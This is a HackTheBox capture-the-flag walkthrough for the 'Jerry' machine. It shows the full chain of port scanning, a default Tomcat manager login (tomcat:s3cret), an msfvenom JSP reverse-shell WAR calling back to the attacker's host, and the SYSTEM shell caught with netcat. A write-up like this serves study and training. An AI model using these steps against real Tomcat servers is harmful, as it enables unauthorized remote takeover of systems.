




# HackTheBox Jerry

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.95

[+] Openning ports: 8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.95 -p8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:09 +07
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

### Apache Tomcat/7.0.88

At port 8080, it is Tomcat's home page.



At manager page `http://10.10.10.95:8080/manager/html`, I try to login with defaul credential `tomcat:s3cret` and I got admin.



## Foothold

### WAR file upload

Create `shell.war` using msfvenom to deploy in tomcat server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
```

Upload file `shell.war` and deploy it.



Execute web shell and got the reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:45.9]~/walkthrough/hackthebox/jerry
└─$ curl http://10.10.10.95:8080/shell/
```

At listener, I got system shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:46.0]~
└─$ sudo nc -nvlp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```